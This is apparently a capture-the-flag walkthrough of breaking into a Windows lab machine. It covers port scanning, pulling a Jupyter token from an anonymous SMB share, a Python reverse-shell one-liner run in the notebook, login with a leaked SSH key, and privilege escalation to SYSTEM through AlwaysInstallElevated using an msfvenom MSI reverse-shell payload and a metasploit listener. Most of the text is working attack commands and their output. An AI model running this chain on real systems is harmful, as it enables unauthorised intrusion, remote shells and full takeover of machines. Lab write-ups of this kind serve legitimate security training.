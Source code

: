 We start with a port enumeration 
```bash
nmap -sC -sV 10.10.111.141
```

Output:
```bash
PORT      STATE SERVICE       VERSION
22/tcp    open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 2b:17:d8:8a:1e:8c:99:bc:5b:f5:3d:0a:5e:ff:5e:5e (RSA)
|   256 3c:c0:fd:b5:c1:57:ab:75:ac:81:10:ae:e2:98:12:0d (ECDSA)
|_  256 e9:f0:30:be:e6:cf:ef:fe:2d:14:21:a0:ac:45:7b:70 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DEV-DATASCI-JUP
| Not valid before: 2023-11-07T20:43:08
|_Not valid after:  2024-05-08T20:43:08
|_ssl-date: 2023-11-08T21:59:06+00:00; +7s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: DEV-DATASCI-JUP
|   NetBIOS_Domain_Name: DEV-DATASCI-JUP
|   NetBIOS_Computer_Name: DEV-DATASCI-JUP
|   DNS_Domain_Name: DEV-DATASCI-JUP
|   DNS_Computer_Name: DEV-DATASCI-JUP
|   Product_Version: 10.0.17763
|_  System_Time: 2023-11-08T21:58:57+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8888/tcp  open  http          Tornado httpd 6.0.3
|_http-server-header: TornadoServer/6.0.3
| http-robots.txt: 1 disallowed entry 
|_/ 
| http-title: Jupyter Notebook
|_Requested resource was /login?next=%2Ftree%3F
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-time: 
|   date: 2023-11-08T21:58:58
|_  start_date: N/A
|_clock-skew: mean: 6s, deviation: 0s, median: 5s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

There are two interesting services _SMB_ and the _webserver_, first we enumerate the SMB service via anoynmous login:

```bash
smbclient -L \\\\10.10.111.141\\
prompt yes
 ```

Output:
```bash
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
datasci-team    Disk      
IPC$            IPC       Remote IPC
```

the most suspicious is _datasci-team_ we continue to investigate with the following commands:

```bash
smbclient \\\\10.10.111.141\\datasci-team
cd misc 
get jupyter-token.txt #before to find the token I view the other files and directories
```

we find a token if we vist the following URL _http://10.10.111.141:8888/login_ and insert the token to gain an access.
there is a god button called _New_, we click on it and the click on _Python3_, it seems we can insert our python code and gain a revshell

```bash
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```
```bash
python3 -m pwncat -lp <PORT>
```
we click run and we obtain the revshell, it's time to search inside the filesystem and inside the folder _/home/dev-datasci/dev-datasci-lowpriv_id_ed25519_ it's a private key for a user called "dev-datasci-lowpriv", we can enter with the following command:

```bash
ssh -i <nome chiave> dev-datasci-lowpriv@10.10.111.141
```

we're in, we can retrieve the user key so it's time to try some enumeration commands and one it seems very interesting, this one:
```powershell
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

after some research online we can exploit it with the following commands:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f msi -o <name>.msi
```
remember to pass the malicious .msi woth a python server to the machine target
```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/shell_reverse_tcp; set lhost <ip>; set lport <port>; exploit"
```
```bash
msiexec /i <file.msi> /quiet /qn /norestart
```
sbam we're system.
